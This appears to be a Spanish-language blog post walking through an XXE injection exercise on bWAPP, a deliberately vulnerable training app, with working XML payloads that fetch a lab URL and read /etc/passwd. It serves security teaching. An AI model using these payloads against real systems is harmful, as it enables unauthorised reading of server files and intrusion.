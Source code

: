 ```yaml
---
layout: post
title: bWAPP - xxe injection
subtitle: "bWAPP - xxe injection"
tags: [xml,xxe]
---
```


> **XML** (Extensible Makuo Language) es un lengaje de marcado que se usa comunmente en el desarrollo web. Se utiliza para almacenar y transportar datos.

**version**: se utiliza para especificar la versió del estandar XML que se está utilizando   
**encoding**: se declara para especificar la codificación a utilizar.  

### Que es una entidad

Son la forma de representar datos que estan presentes dentro de un documento XML.

La declaración de una entidad externa usa la palabra clave `SYSTEM` y debe especificar una `URL` desde el cual se debe cargar el valor de la entidad.

`<! ENTITY var SYSTEM "URL">`

`var`: nombre de la entidad  
`SYSTEM`: palabra clave utilizada  
`URL`: url que queremos obtener al realizar un ataque xxe  

## Ataque XXE

Interceptamos la petición de la opción `external Injection Attacks` de la aplicación `bWAPP`.

![xml](../assets/imgs/xxeb/xml.png)

Se puede observar que no hay ningun filtro aplicado por lo que es posible un XXE.  
haciendo un análisis de los campos establecidos concluyo que el campo login es inyectable.

Declaramos un `doctype` con el nombre **reset** y lugo dentro de eso declaramos una entidad llamada **bee**. Usamos el identificador de `SYSTEM` y lugo ingreo la URL de robots.txt.

```
<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE reset [
	<!ENTITY bee SYSTEM "http://192.168.0.106/bWAPP/robots.txt">
	]>
	<reset>
		<login>
			&bee;
		</login>
		<secret>
			Any bugs?
		</secret>
	</reset>
```

![robots](../assets/imgs/xxeb/robots.png)

**Archivo remoto**

```
<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE reset [
	<!ENTITY bee SYSTEM "file:///etc/passwd">
	]>
	<reset>
		<login>
			&bee;
		</login>
		<secret>
			Any bugs?
		</secret>
	</reset>
```

![passwd](../assets/imgs/xxeb/passwd.png)
